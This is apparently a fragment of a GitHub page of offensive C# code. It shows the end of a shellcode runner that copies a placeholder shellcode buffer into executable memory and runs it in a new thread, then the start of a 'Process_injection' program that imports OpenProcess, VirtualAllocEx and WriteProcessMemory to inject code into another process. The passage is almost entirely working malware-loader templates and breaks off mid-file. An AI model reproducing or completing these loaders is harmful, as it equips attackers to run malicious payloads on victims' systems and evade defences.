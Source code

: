 ```csharp
            {

                byte[] buf = new byte[YOUR_SIZE] {YOUR_SHELLCODE};

                int size = buf.Length;

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

                Marshal.Copy(buf, 0, addr, size);

                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
IntPtr.Zero);

                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
    }
}
```
<br>
<br>

## Process_injection

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;

namespace RemoteShinject
{
    public class Program
    {
        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF
        }
        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000
        }

        [Flags]
        public enum MemoryProtection
        {
            ExecuteReadWrite = 0x40
        }

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, AllocationType flAllocationType, MemoryProtection flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

```